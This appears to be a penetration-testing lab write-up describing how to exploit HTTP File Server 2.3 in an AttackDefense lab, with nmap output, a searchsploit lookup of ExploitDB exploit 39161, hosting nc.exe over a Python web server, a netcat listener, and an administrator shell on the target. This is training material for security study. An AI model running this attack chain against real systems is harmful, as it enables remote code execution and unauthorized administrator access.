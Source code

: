 # 🔬Fixing Exploits - HFS

## Lab 1

>  🔬 [Windows: HTTP File Server](https://attackdefense.com/challengedetails?cid=1945)
>
>  - Same as the [HFS - MSF Exploit Lab](../../hostnetwork-penetration-testing/3-metasploit/hfs-msf-exp.md)
>  - Target IP: `10.2.23.79`
>  - Manually exploit the target with **ExploitDB exploits**
>  - Attacker machine is offline

```bash
nmap -sV 10.2.23.79
```

```bash
80/tcp    open  http               HttpFileServer httpd 2.3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49165/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

- Use `searchsploit` to identify `HttpFileServer httpd 2.3` vulnerabilities

```bash
searchsploit HTTP File Server 2.3
```

![searchsploit HTTP File Server 2.3](.gitbook/assets/image-20230423132333200.png)

- Copy the exploit to the Desktop

```bash
cd Desktop/
searchsploit -m 39161
```

### Analyzing the Exploit

```bash
vim 39161.py
```

![](.gitbook/assets/image-20230423132623415.png)

- Read the exploit
  - *You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe). You may need to run it multiple times for success!*
  - `ip_addr` - change to attacker Kali Linux IP
  - `local_port` - change to 1234

### Execute the Exploit

- Save and run the exploit

```bash
# In a new terminal session
cd Desktop/
cp /usr/share/windows-resources/binaries/nc.exe .
python - SimpleHTTPServer 80
```

```bash
# In a new terminal session
# Run the netcat listener on the exploit specified "local_port"
nc -nvlp 1234
```

```bash
# From the first terminal windows, run the exploit
python 39161.py 10.2.23.79 80
```

```bash
whoami
	win-omcnbkr66mn\administrator
systeminfo
```

![](.gitbook/assets/hfs-netcat-exp.gif)

------

